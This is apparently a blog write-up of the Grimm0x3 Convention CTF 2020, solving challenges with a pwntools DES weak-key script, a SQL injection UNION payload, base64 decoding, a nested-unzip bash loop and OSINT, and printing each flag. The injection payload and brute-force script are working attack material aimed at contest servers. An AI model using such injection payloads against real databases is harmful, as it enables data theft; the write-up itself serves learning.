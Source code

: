 ```yaml
---
title: "Grimm0x3 Convention CTF 2020 Writeup"
date: 2020-12-30 16:02:00 -0800
categories: [CTF, writeup]
tags: [writeup, web, commandinjection, misc, linux, php, crypto]
toc: true
---
```


> 8 Hour CTF, placed 68th/1100 Registered Team Accounts.

## Odysseus - 500 Points 

> I already encrypted the flag once but two times can never hurt right? I'll let you send me another key to encrypt it with! (in hex)

Based on the description, this challenge requires a DES Weak Key Attack. Weak keys are keys that cause the encryption to act identically to the decryption mode.

I used the list of keys [found on this github repo](https://github.com/W3rni0/NahamCon_CTF_2020/blob/master/assets/files/keys). Simple pwntools script to get the flag:

```
from pwn import *

#nc challenge.ctf.games 32350

with open('keys') as my_file:
    keys_array = my_file.readlines()


for key in keys_array:
        conn = remote('challenge.ctf.games', 32350)
        conn.recvline()
        conn.send(key)
        try:
                hex_string = str(conn.recvline(), 'utf-8')[1:-1]
                bytes_object = bytes.fromhex(hex_string)
                ascii_string = bytes_object.decode("ASCII")
                print(ascii_string)
                if flag in ascii_string:
                        exit(1)
        except:
                pass
        conn.close()
```

> flag{9b9169ac15fe51e8f337bc2786e4fb36}

## Syringe (338 Points)

> Doctors love their databases! Here is a library of words and semantics relating to medical words, like "syringe", or "x-ray", or "injection". Find whatever you need, just by searching for it! 

Simple SQL Injection challenge. We are given the query:

```
SELECT * FROM semantics WHERE name LIKE "%<userinput>%"
```

We can do a simple injection:

```
garbage%" or name = "doctor" or name LIKE "%garbage%" UNION SELECT * FROM flag WHERE flag LIKE "%
```

and get the flag.

> flag{f2a5006b1b07cc08362772807322ef62}

## Hyperopia (272 Points)

> erything close up is blurry... can you please help me read this? 

You are given a blurry QR code. Using Gimp's Sharp Unmask tool with Radius 3 Amount 20 Threshhold 0, I was able to make the qrcode scannable.

> flag{3efd4bd34663e618c70e051505c83f9f}

## Triple (50 Points)

> I was studying something called ASCII armor because I wanted to become better at encoding. I was having fun until I realized I couldn't decode my message... 

I simply noticed the string encoded in base64 and decoded the string three times.

```
kali@kali:~/Desktop/ctf/grimcon0x3/desshit$ echo V20xNGFGb3pjM3BQVkd0M1RsZFJlVTFVVVRSYWFsSnRXa2RKTTFscVFYbE9WMDE1VFRKUk1rOUVVWGROUkU1cVdXNHdQUT09 | base64 -d | base64 -d | base64 -d
flag{39905d2148f4fdb7b025c23d684003cb}
```

> flag{39905d2148f4fdb7b025c23d684003cb}


## ZipZip (50 Points)

> My friend sent me this zip file... He is a prankster and compressed the file a LOT of times... I don't know how to make this go quickly and I don't have the time... At least he told me the password is "pass". Can you please help? 

There is a file zipped 50 times, each time with the word pass. I can use a bash script to unzip everything.

```
#!/bin/bash
for i in $(seq -f "%02g" 50 -1 0)
        do
                unzip -P pass $i.zip
                #i=$((i-1))
        done
cat flag.txt
```

> flag{cf97382071cb149aac8d6ab8baeaa3ee}

## wannabeel33t

OSINT Challenge. We can given the username ``wannabeel33t``. Googling shows a reddit profile. The bio has something URL Encoded. Throwing it into cyberchef, we get the flag.

> flag{66b15347c58c91d1937f0b40e973d3f6}


## Conclusion

I wish the CTF was longer than 8 hours (and I wish that I had actual teammates as well). The challenges were good and creative, I just did not have the time to solve a lot of things.